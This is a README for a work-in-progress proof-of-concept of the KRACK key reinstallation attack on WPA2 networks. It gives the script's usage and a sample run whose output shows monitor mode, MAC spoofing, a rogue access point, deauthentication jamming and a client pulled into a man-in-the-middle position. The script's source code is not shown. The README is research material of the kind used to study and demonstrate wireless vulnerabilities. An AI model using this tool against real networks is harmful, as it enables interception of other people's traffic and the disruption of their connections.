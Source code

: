# [WORK IN PROGESS] PoC Krack (Key Reinstallation AttaCKs)

Proof of concept for Krack attack using channel-based MitM

## Theory

French article on [hackndo](http://beta.hackndo.com/krack/)

## Environment

WPA2 with CCMP

## Usage

```
# ./Krack.py -h
usage: Krack.py [-h] [-d] -a ACCESS_POINT -i IFACE_AP -b CLIENT -j
                IFACE_CLIENT -c CHANNEL

optional arguments:
  -h, --help            show this help message and exit
  -d, --direct          Skip channel and monitor settings
  -a ACCESS_POINT, --access_point ACCESS_POINT
                        Enter the SSID of the specific access point to target
  -i IFACE_AP, --iface_ap IFACE_AP
                        Enter the SSID of the specific access point to target
  -b CLIENT, --client CLIENT
                        Enter the MAC address of the specific client to target
  -j IFACE_CLIENT, --iface_client IFACE_CLIENT
                        Enter the SSID of the specific access point to target
  -c CHANNEL, --channel CHANNEL
                        Choose channel on which the targeted access point is
                        listening on

# ./Krack.py -a hackndo_ssid_test -i wlan1 -b "ab:cd:0a:0b:11:22" -j wlan0 -c 11
[*] Turning off both interfaces
[*] Setting interface wlan1 on channel 11
[*] Interface wlan1 is on channel 11
[*] Setting interface wlan0 on channel 4
[*] Interface wlan0 is on channel 4
[*] Starting monitor mode for wlan1
[*] Interface wlan1 is now in monitor mode
[*] Starting monitor mode for wlan0
[*] Interface wlan0 is now in monitor mode
[*] Turning on both interfaces
[*] Trying to find hackndo_ssid_test MAC address
[*] MAC Found ! 0e:cc:46:8a:b1:09
[*] Jammer initialized correctly
[*] Sniffing an AP Beacon...
[*] AP Beacon saved!
[*] Sniffing an AP Probe response...
[*] AP Probe response saved!
[*] Updating wlan1 MAC address to ab:cd:0a:0b:11:22 (Client MAC)
[*] wlan1 MAC address update successful
[*] Updating wlan0 MAC address to 0e:cc:46:8a:b1:09 (Real AP MAC)
[*] wlan0 MAC address update successful
[*] Rogue AP started. Sending beacons...
[*] Running main loop
[*] Starting deauth on AP 0e:cc:46:8a:b1:09 (hackndo_ssid_test) and client ab:cd:0a:0b:11:22...
[*] Probe request to our AP
[*] Client authenticated to our AP!
[*] MitM attack has started
[*] Deauth stopped
```

## TODO

 [*] Use CSA (Channel Switch Announcement) to make client switch channel after deauth (See issue [#1](https://github.com/Hackndo/krack-poc/issues/1))
 [ ] Save data sent by client
 [ ] Break cryptography with known plain text when counter is reinitialized

